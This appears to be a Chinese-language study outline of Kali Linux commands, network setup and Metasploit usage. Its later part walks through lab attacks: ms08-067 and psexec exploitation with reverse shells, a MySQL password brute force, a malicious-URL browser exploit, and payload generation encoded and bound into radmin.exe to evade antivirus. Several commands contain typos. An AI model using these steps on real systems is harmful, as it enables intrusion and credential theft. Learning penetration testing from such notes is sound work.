kali
bash命令
ls（查看当前目录下的文件，相当于win下的dir）
ls-l
第一个字符
d表示是mulu
-表示是文件
c表示设备文件
l表示链接（类似于快捷方式）
b表示块设备
ls-a
多出来的以.开头，表示隐藏文件
ls-h
显示文件大小
子主题 2
ls-lh--sort=size
结果以文件大小排序
ls-lh--sort=time
结果以文件修改时间排序
cd
cd/media/
cd..
回到上级目录
pwd
查看当前工作目录
~是用户主目录 root
cat(查看文本文件内容)
cat /var/log/messages（查看系统信息的变化）
cat /etc/passwd
查看当前系统本地账号信息
cat /etc/resolv.conf
查看当前dns配置信息
more /var/log/messages
使用q退出
less /var/log/messages
tail /var/log/messages
显示文件最下面10行
tail -20/var/log/messages
指定显示20行
watch -n 2
每两秒后执行该语句之后的命令
watch -n 2 tail -20/var/log/messages
cp(复制文件)
cp ps ps1
将文件ps复制命名为ps1
cp -r Agent/ A
将目录Agent复制并命名为A
rm(删除文件)
rm net.txt
rm -r a
删除a这个目录
top（用于监控系统运行指标）
包括目前进程相关信息
可以对进程进行操作
k+进程pid
杀死进程
使用q退出
ps -ef
进程相关信息
ps aux
显示的列信息可能稍有不同
grep(筛选输出内容)
cat /etc/passwd
查看当前系统本地账号信息
grep ssh /etc/passwd
passwd文件中存在ssh字符串的内容
ifconfig
ifconfig eth0 down
将网卡down掉
macchanger -m 00:11:11:11:11:11 eth0
将eth0的MAC地址改成00:11:11:11:11:11
ifcongfig eth0 up
重启网卡
只在本次登录期间有效
netstat -pantu
查看目前主机与那些服务器产生了tcp/udp连接
管道:将多个命令以某种方式连接起来，比如前面的命令的结果作为后面命令的输入
netstat -pantu | egrep -v '0.0.0.0|:::'
使用egrep(grep的升级版)将管道前面输出的数据进行筛选，不显示含有0.0.0.0 或者:::的记录
netstat -pantu | egrep -v '0.0.0.0|:::' | awk'(print $5)'
在以上的数据基础上，只输出第五列的信息 awk默认使用空格针对每一行的内容进行分块
netstat -pantu | egrep -v '0.0.0.0|:::' | awk'(print $5)' |egrep -v 'and|Address'
在以上的数据基础上，将信息为and或者Address的记录删除
netstat -pantu | egrep -v '0.0.0.0|:::' | awk'(print $5)' |egrep -v 'and|Address' |cut -d':' -f 1
在以上的数据基础上，以：作为分割依据，保留分割后的第一块，在这里就是只显示ip信息，不显示端口信息
netstat -pantu | egrep -v '0.0.0.0|:::' | awk'(print $5)' |egrep -v 'and|Address' |cut -d':' -f 1 | sort | uniq
在以上的数据基础上，排序、去重
netstat -pantu | egrep -v '0.0.0.0|:::' | awk'(print $5)' |egrep -v 'and|Address' |cut -d':' -f 1 | sort | uniq > ip
将目前的输出结果导出到ip文件（可以使用cat指令进行查找）
netstat -pantu | egrep -v '0.0.0.0|:::' | awk'(print $5)' |egrep -v 'and|Address' |cut -d':' -f 1 | sort | uniq > >ip
将新的ip信息追加到ip文件，一个是>会覆盖
mount
用于挂载目录操作，直接使用可以查找目前已经挂载的目录
mount -o loop kali.iso /media/cdrom
直接挂载特定目录下的iso文件，挂载之后可以进入该目录查看iso文件内容
dmesg
用于查看 messages文件的内容
find
查找文件或目录
find / -name nmap
从根目录开始，查找所有名称为nmap的文件
find / -iname nmap
不区分文件名大小写查找
find . -name "ps*"
当前目录下文件名称以ps开头的文件
find . -name "ps*" -exec cp{} /tmp/{}.bak \;
对于当前查询到的结果进行处理，复制到tmp路径下，以bat为后缀名，这里的复制操作对查找结果中的隐藏文件不能起作用，会报错
whereis
whereis nmap
查找namp的路径，类似于find，但是查找结果不完整，速度快，只能在安装目录中进行查找
whereis -b nmap
查找二进制执行文件namp
使用之前要更新数据库
updatedb
echo
在目前终端界面显示输入
echo "hello world"
vi
vim:命令行状态下文本编辑器，操作字符类型文本文件
vi ip
打开文件
默认处于命令模式
:set nu
显示行号
:wq
保存修改结果并退出
:wq!
强制保存退出
i
进入插入模式，对文本内容进行编辑
完成修改 按esc返回命令模式
a
进入添加模式
命令模式下 按两次d，删除光标对应的一行
命令模式下 按o，插入一行（当前光标下），自动进入插入模式
命令模式下，y复制当前行
命令模式下，p粘贴当前行
管道
|
前一条命令的输出及结果作为后一条命令的的输入值
cat /etc/passwd |grep ssl
只查看passwd文件中有ssl字段的记录
&
前后两命令依次执行
&&
前命令 执行成功才执行后面命令
||
前命令执行不成功才执行后面命令
shell脚本
在终端窗口，通过系统命令利用编程语言逻辑完成相关操作
vi 1.sh
新建1.sh脚本文件，可以不同sh结尾，只要文件拥有执行权限即可
i
#!/bin/bash
使用bin/bash来解释下面脚本
echo -n "ip:"
不换行显示引号内字段
read ip
读取输入用于定义变量ip
echo "your ip is:" $ip
引用变量ip输出
chmod +x 1.sh
赋予执行权限
ls -l 1.sh
查看相关权限
./1.sh
执行脚本
使用编程开发环境打开shell

双重循环打印99乘法表
for n in 'seq 9'
seq9即一个序列从1到9
do
for m in 'seq $n'
do
echo -n "$m*$n='expr $m \* $n$'"
'expr $m\*$n'
即mn相乘
done
echo
打印一个空值，进行换行
done
shell例子

-c 1表示只ping一个包
即发现内网中所有活着的ip（通过ping的方式，即发icmp包）
前提是目标主机允许ping
shell例子2

A='cat ip1'
变量A为储存ip信息的文件ip1 ，即将cat语句的结果赋值给A
for b in $A
将A中每一行的内容循环赋值给b
n='echo $b | wc -L'
n等于b的字符长度
wc -L用于计算字符串长度
if[$n -gt 6]; then
若n大于6，则执行then后面的语句
ip=$b
else
否则执行
port=$b
b为端口号
nmap -p$port......
一条nmap命令
fi
done
网络配置
默认通过网络内的dhcp服务器获得ip地址
dhclient eht0
为eth0获得新的IP地址
ifconfig eth0 192.168.1.11/24
手动指定ip地址
24是指定的子网掩码位数，对应的是255.255.255.0
route add default gw 192.168.1.1
指定网关，加上degault即指定默认网关
netstat -nr
查看网关是否更改完成
默认网关是目标网络（destination）与掩码（）均是0.0.0.0
route -n也可以查看路由表
三层交换机：大型局域网中为防止广播风暴，将网络划分为多个小型局域网（vlan），为加强数据在不同小局域网中的流通，使用三层交换机（具有一定路由功能的交换机）针对不同小局域网进行连接
每个vlan网段有不同的ip地址，需要为操作系统逐条添加每一个vlan网段的静态路由（因为当前操作系统网关是指向公网）
route add -net 172.16.0.0/24 gw 192.168.1.100 eth0
网关必须是指定与目前主机同一个网段的ip地址，添加的172.16.0.0是同一局域网下的其他vlan网段，而不是主机地址
通过 route -n 查看路由表
配置dns地址（主要是改写相应配置文件中的内容）
vi /etc/resolv.conf
改写其中nameserver段的内容
echo nameserver 192.168.1.1>/etc/resolv.conf
直接将需要添加的dns地址通过>管道写入文件
以上指定的ip地址是临时指定的，重启后不生效
通过修改网卡的配置文件永久改变网络配置
vi /etc/network/interfaces
iface eth0 inet dhcp
默认eth通过dhcp自动分配ip
iface eth0 inet static
使用固定ip
address 192.168.0.1
指定ip
netmask 255.255.255.0
指定子网掩码
gateway 192.168.0.254
指定网关（以上三条是必须的）
网络地址、网关地址可以进行配置，可以不配置
dns服务器地址也可以在interfaces文件中进行指定(原来是改写resolv.conf文件)

内部网段需要添加静态路由可以在interfaces中进行

注意改变了interfaces文件，自行指定网络配置信息需要将虚拟机网络改成桥接模式，接入真实的物理网络
更新升级
更换更新源（修改相应的配置文件）
vi /etc/apt/sources.list

win和linux字符的换行符不一样，所以复制的时候一行一行复制比较好
apt-get dis-upgrade
大型版本升级
apt-get update --fix-missing
进一步更新错误的索引文件
uname -a
查看当前kali内核版本
并发线程限制
linux每个shell窗口能调用的系统资源是有限的
设置并发线程将使用ddos攻击工具成为可能，同时产生大量并发链接
ulimit -a
查看目前线程线限制情况
vi .bashrc
修改配置文件，永久修改线程限制配置
linux中一切都是文件，运行中的文件是线程
电源优化
服务开关
kali默认所有网络服务全部关闭
/etc/init.d/ssh star
/etc/init.d/ssh stop
在特定目录下执行服务启动或关闭脚本
netstat -pantu | grep:22
查看22端口是否开启，即ssh服务是否启动

init 0关闭操作系统
init 6重启操作系统
翻墙
通过修改apt-get的配置文件，使得在进行更新的过程中使用代理的方式连接更新源，达到更快的更新速度
vi /etc/apt/apt.conf
添加 Acquire::http::Proxy"http://127.0.0.1:8087";
即通过代理的侦听端口连接kali的更新源

vi /etc/bash.bashrc
通过更改该配置文件中的内容，使得命令行操作中部分有关使用特定网络协议进行网络连接的命令行通过代理方式执行

验证方法
curl -v http://www.baidu.com
即使用命令行的方式进行http请求，获得目的网站的网站html代码（针对http请求进行代理）
wget 网站下载链接
使用命令行在特定往网站进行下载
代理链
vi e/tc/proxychain.conf
配置代理链文件
静态链
一个代理损坏，代理无法进行
动态链
跳过损坏代理
随机链
代理使用顺序随机
dns解析使用代理

使用proxychains通过代理执行namp指令
tor
MSF
exit
退出
msfdb
初始化msf数据库
有初始化，重新初始化、删除、打开 暂停等子命令
msf 数据库侦听5432端口
msfdb init
msfdb reinit
msfdb stop
msfdb delete
msfdb start
技术功能模块
msf模块目录：/usr/share/metasploit-framework/modules
exploits
针对不同平台、不同功能的漏洞利用代码
利用系统漏洞进行攻击，调用shellcode，是一种漏洞利用的流程，可能会运行多种脚本
是一种攻击的流程，而不是一串代码（payload）
同一个漏洞可以执行不同的payload，不同的漏洞也可以执行相同的payload
在exp的流程中需要使用到payload
payload
漏洞成功利用后（exp流程成功）,在目标系统中执行的命令（用于对达成对目标系统的操作，反弹shell，开放端口，接收后门）
当payload用于获取目标主机的shell时，这种payload可以称之为shellcode
shell
msf中payload的种类
singles
all in one
不依赖其他系统环境的可以单独运行直接起效的payload
体积较大
stager
目标主机内存有限时，用于建立一些网络连接的payload
体积较小
stages
利用stager建立的连接下载用于后续攻击的payload
auxiliary
执行信息收集、枚举、扫描等辅助性功能模块
dos相关模块，导致对方系统流程崩溃
没有payload的exploit模块
encoders
对payload进行加密
nops
提高payload的稳定性以及维持其大小
post
msf使用
msfupdate
msf更新
msfcli使用接口
msfconsole使用接口（最常用）
在shell界面中输msfconsole启动
tab自动补全
两次tab显示待选命令
msfconsole -h
msfconsole -q
不显示banner以及小贴士信息
msfconsole -r
msfconsole -v
版本信息
help或？
显示console界面下msf可以使用的命令
同时也支持操作系统的命令
ls
pwd
help workspace
help+系统命令可以查看具体命令的用法
workspace -h
功能同上
？ workspace
功能同上（不能tab自动补全）
banner
即出现启动时的banner信息
color
color ture
启动颜色标识
color false
不启动颜色标识
connect
相当于nc，用来进行目标主机特定端口的连接
支持ssl
支持代理
支持udp socket
使用 connect -h查看使用方法
connect 192.168.1.1 80
show
show auxiliary
show exploit
show encoders
show nops
show all
直接输入show回车可以看到待输入的命令
查看当前msf（模块）提供的可用资源
可以在根目录或者具体模块中使用
search
search -h
查看相关帮助
seach ms10-045
根据关键字进行查找，返回文件系统的目录
search name:mysql
name中存在mysql的文件
search platfrom:aix
平台是aix的文件
search cve:2015
cve编号中有2015的文件
search type:auxiliary
search author:aaron
作者是aaron
search ms08-067
经典ms08-067模块
找到路径 ：exploit/windows/smb/ms08-067_netapi
use exploit/windows/smb/ms08-067_netapi
进入该模块利用界面
info
查看该模块具体信息，使用方法等
show option
显示攻击模块配置选项
show target
显示可以攻击的主机类型
show payload
显示当前攻击模块适用的payload
show advanced
显示攻击模块高级参数、
show evasion
设置混淆相关
show missing
显示还没有设置的必须参数
set RHOST 1.1.1.1
设置目的主机的ip
edit
直接编辑攻击模块的内容（源代码）
也可以在攻击模块外面适用vi打开脚本文件
check
探测目标主机对应端口是否存在相应漏洞
不会进行相应的漏洞利用
一般在漏洞利用之前尝试使用
大部分漏洞利用模块没有check功能
back
退出当前漏洞利用模块
回到msfconsole根目录
check
db_
两次tab键出现可选命令
db_status
查看数据库是否启动
如果未启动可以退出msf手动启动数据库
service postgresql start
msfdb start
netstat -pantu | grep 5432
查看5432端口是否打开，若打开说明对应数据库已经运行
数据库如果不启动，无法进行渗透过程数据的储存，前一步渗透数据的结果不能被之后的渗透工具所使用
db_rebuild_cache
对于模块信息进行缓存，用于msf中各个模块的检索
db_disconnect
断开当前msf与数据库的连接
db_connect
-h
查看帮助
db_connect -y 数据库配置文件的完整路径
连接到特定数据库
db_nmap
集成的nmap扫描器
db_nnmap 192.168.1.1
对特定ip进行扫描，扫描结果会储存在数据库中
hosts
查看扫描到的主机信息
db_nmap -a
可以在后面跟nmap相关的命令
hosts 1.1.1.1
只看特定ip的扫描信息
hosts -u
只看扫描结果中主机启动的结果
hosts -c adderss，osname
只看这两列的信息
hosts -c adderss，osname -S windows
只看主机系统为windows的主机的这两列的信息
hosts -S 121
主机信息中包含121的记录信息
hosts -S xp
services
扫描到的主机中的端口相关信息
services -p 445
只开放445端口的扫描到的主机的信息
services -S 445
包括445的扫描记录
services -h
查看其他参数的使用方法
services -c port,state
查看特定列
services -c port,state -p 1-200
在上面搜索结果的前提下显示端口为1-200的结果
mysql_login模块
用于扫描数据库的密码
暴力破解
search mysql_login
查询该模块的路径
use auxiliary/scanner/mysql/mysql_login
使用该模块
use+路径也适用于所有msf模块的使用
show option
显示可选项
set USERNAME root
指定需要破解的msql数据库的登录名
set BLANK_PASSWORDS yes
针对目标数据库密码可能为空的情况进行检查
set RHOSTS 192.168.1.122
指定目标主机ip地址
show option
检查相关选项是否配置完成
run
执行该模块
run -h
查看相关参数
exploit
功能与run一样
注意在msfconsole界面中所有执行模块获得的结果均会保存在数据库中
creds
查看刚才扫描时获得的密码信息
注意与hosts之于nmap不同，creds命令是在mysql_login 界面中执行的
vulns
查看扫描到目的主机的漏洞信息
loot
db_import
db_import /root/nmap.xml
导入其他数据库
可以导入由nmap工具扫描结果形成的数据库
db_export
db_export -f xml /root/msfback.xml
指定输出格式以及输出文件名
基本功能使用
set
进入相关模块后进行参数设置
unset
去向相关设置
unset RHOSTS
取消对于 rhosts选项的设置
setg RHOSTS 192.168.1.121
在msf根目录下运行，则msf中使用RHOST参数的模块的rhosts均会被修改
unsetg
setg 与unsetg也可以在某个模块中运行，效果相同
save
即使退出msf，下一次再次进入是保存本次对于模块的参数设置
用法：退出msf前输入save
保存的信息存放在/root/.msf4/config
rm 删除该配置文件后相关信息不会被保存
run
执行当前模块
exploit
执行当前模块
一次攻击过程
search ms08-067
use 该漏洞利用模块的目录
show option
set rhost 192.168.1.121
show target
显示该攻击模块下目的主机的操作系统
默认情况下攻击模块自动选择目的主机系统，但是那样攻击成功率较低的，故在清楚目的主机系统类型时可以进行指定
set target 34
34为简体中文版的系统编号
show payload
显示可用的payload
set payload 路径
设置特定的payload
show option
set lhost 192.168.1.133
设置侦听地址，用于指定接收目的主机的回连shell的主机的ip
exploit
执行该攻击模块
exploit -h
看参数
exploit -j
执行攻击后，即使拿到shell也不会直接进入shell而是以一种后台方式运行
攻击结束后不会直接进入对方的shell
session
看当前已经建立的连接
如果攻击成功可以看到目标系统与主机之间的连接
session -l
列表形式显示连接情况
sessionn -i 连接编号
进入对应的连接
即进入对应的shell
load
使用外部插件
直接load回车，查看可用选项
load openvas
连接openvas扫描器进行使用
之后可以直接使用openvas相关命令
unload
对应load
卸载插件
loadpath
指定特定目录中的模块进行加载
loadpath 目录路径
route
用于添加路径
将路由的网关指向指到已经建立的session（shell）上面， 之后连接被攻击主机内网中其他主机就是通过这个session进行的
route -h
route add 10.1.1.0 255.255.255.0 4
执行之后以后访问10.1.1.0 子网的流量均通过session号为4的sessionn进行路由
向目的主机内网中的其他主机进行通讯
irb
开发接口
是一个开发环境
用于编写自己的模块
可以使用一些msf自身相关函数
resource
指定资源文件
资源文件中保存相关配置文件
简化模块参数配置过程
vi r.rc
新建一个资源文件
use 模块路径
set rhosts
set lhost。。
配置语句保存在配置文件中
resource r.rc
在msf根目录直接执行r.rc
执行配置文件中的命令
msfconsole -r r.rc
直接在kali根目录下打开msf的过程中直接调用resource参数使用r.rc配置文件
exploit模块
active exploit
payload是攻击方主动发送到目的主机的
一般适用于攻击运行服务器端程序的服务器，此类服务器会开启很多端口，攻击者会通过端口将payload上传执行

在上面的攻击操作中，使用了psexec的攻击模块，该攻击模块实现远程代码执行，但是前提是知道目的主机的用户名以及密码，所以在配置的过程中需要对smbuser以及smbpass进行配置
以上攻击操作使用了一个反弹shell的payload
该攻击需要目的主机开通smb协议
use exploit/windows/smb/psexec
show option
set rhost 192.168.1.113
设置目的主机ip
set smbuser w7
set smbpass vv
set payload windows/shell/reverse_tcp
指定使用一个反弹shell
之后要对shell反弹回来的ip进行指定
show option
set lhost 192.168.1.113
设置本机ip，用于接收返回的shell
set lport 4444
设置本机用于接收反弹shell的本机端口
show target
可以使用默认的，也可以自己设置目的主机的操作系统情况
exploit -j
静默执行攻击，攻击结束后不进入shell
session -l
显示当前的连接
session -i 1
连接对应的shell
passive exploit
一般适用于运行客户端程序的主机，此类主机一般不会开启很多端口，或端口没有漏洞，一般通过诱使主机访问伪造网站，使得存在漏洞的客户端程序自行在伪造网站下载payload执行（此类客户端程序往往是浏览器）
这种攻击方式目的主机可以打开防火墙，因为此攻击方式不会主动对目的主机发起连接
use exploit/windows/browser/ms07_017_ani_loadimage_chunksize
info
显示该模块的使用范围以及参数等信息
set srvhost 192.168.1.113
本机ip作为伪造的站点，目的主机将会连接本机为存在漏洞的客户端程序加载payload
在这里也可以设置是否自连接中使用ssl
set uripath /
设置伪造网站被访问的目录，这里/指定根目录即可
默认情况即/
set payload windows/shell/reverse_tcp
指定使用一个反弹shell
之后要对shell反弹回来的ip进行指定
show option
set lhost 192.168.1.113
设置本机ip，用于接收返回的shell
set lport 4444
设置本机用于接收反弹shell的本机端口
需要确定下该端口没有被其他程序占用
netstat -pantu | grep 4444
j即查看444端口连接情况
exploit
执行之后会生成一个url，该url需要目的主机主动连接
session -l
session -i 2
连接shell
生成payload
注意无论何种方式进行攻击，最终目的是payload在目的主机执行，使用exploit是通过漏洞利用的方式使payload得以执行，如果目的主机没有相关漏洞，也可以以其他方式使payload得以执行，比如将payload伪装成为一个exe程序
show payload
ues payload/windows
两下tab键可以进行查询
use payload/windows/shell_bind_tcp
该payload使得目的主机将自己的sehll绑定到某个端口，一旦该端口被访问，对方即获得shell
show option
默认lport为4444 指目的主机执行payload后将shell绑定到444端口与
rhost设置默认为空，指不限定访问目的主机444端口的来源ip，可以设置为本机ip，即只允许本机连接444，获得shell
generate
生成payload
CHAKAN
generate -b '\x00\x44'
避免坏字符00 44
一般替换坏字符的方式是将坏字符编码，所以一般编码后的payload会大于原来，编码的方式是使用encoder
show encoder
encoder存在相关优秀等级
坏字符过多时，无法生成payload，因为可用的encoder是有限的
generate -e bx86/nonalpha
generate -b '\x00' -t exe -e x86/shikata_ga_nai -i 5 -k -x /usr/share/windows-binaries/radmin.exe -f /root/1.exe
-i 5 使用encoder加密5轮，有一定的免杀效果
-k运行过程中不会产生新的进程，只产生新的进程，效率高
-x 以某一个程序作为模板，将payload绑定到该该程序，一起运行
nc 192.168.1.144 4444
直接连接目的主机的444端口
generate -s 44
在生成的payload前面加44个nop，进行缓冲区溢出时，只要将eip模糊指向nop中的任意一个，即可使payload进行执行，cpu执行nop时会自动执行下一个字节
generate -t c
生成c语言格式的payload
generate -t java
generate -t python
meterpreter
高级、动态、可扩展的payload
之前获得的shell均是命令行界面的shell，较为笨拙
类似于nanocore等远程管理工具的功能，能够更方便的进行系统操作（比如修改注册表，观看远程桌面，键盘记录、上传下载文件等）
后渗透测试阶段一站式解决方案
完全基于内存的dll注入式payload，不会经过硬盘的保存，所以杀毒软件硬盘扫描具有隐蔽性
将payload注入到合法系统进程并建立stager，不会产生新的进程
通过建立的stager的socket链接将恶意dll加载入目的主机，使得dll中的函数均可以在目的主机中执行
基于stager建立的socket链接建立加密的TLS/1.0通信隧道
利用TLS隧道进一步加载后续扩展模块（可以避免网络取证）
